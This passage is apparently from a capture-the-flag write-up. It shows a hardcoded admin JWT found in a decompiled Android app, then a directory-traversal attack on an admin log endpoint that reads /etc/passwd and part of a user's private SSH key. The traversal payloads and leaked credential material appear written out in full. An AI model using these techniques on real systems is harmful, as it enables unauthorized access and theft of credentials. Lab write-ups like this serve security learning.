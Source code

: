 The decoded JWT payload showed the user's role as **`instantian`**.

```json
{
  "id": 4,
  "role": "instantian",
  "walId": "49fe429d-70c3-4e60-b071-7706d6462b45",
  "exp": 1734710601
}
```

By searching the decompiled APK source code for the term **"admin"**, a hardcoded JWT for an **`Admin`** user was discovered.

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA
```

Decoding this token confirmed its admin privileges.

```json
{
  "id": 1,
  "role": "Admin",
  "walId": "f0eca6e5-783a-471d-9d8f-0162cbc900db",
  "exp": 33259303656
}
```

### 🔓 Gaining User Access

With the admin token, it was possible to access privileged API endpoints. The `/api/v1/admin/read/log` endpoint was identified as a potential target for **directory traversal**. By using this vulnerability, the `/etc/passwd` file was successfully read.

```bash
{
  "/home/shirohige/logs/../../../../../../../etc/passwd": [
    ...
  ],
  "Status": 201
}
```

A leaked username, **shirohige**, was found in a JSON file on the webpage. Combining this information with the directory traversal vulnerability, the private SSH key for the `shirohige` user was read from `/home/shirohige/.ssh/id_rsa`.

```json
{
  "/home/shirohige/logs/../../../../../../../home/shirohige/.ssh/id_rsa": [
    "-----BEGIN OPENSSH PRIVATE KEY-----\n",
    "b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn\n",
    "NhAAAAAwEAAQAAAYEApbntlalmnZWcTVZ0skIN2+Ppqr4xjYgIrZyZzd9YtJGuv/w3GW8B\n",
    "nwQ1vzh3BDyxhL3WLA3jPnkbB8j4luRrOfHNjK8lGefOMYtY/T5hE0VeHv73uEOA/BoeaH\n",
    ...
  ],
  "Status": 201
}
```
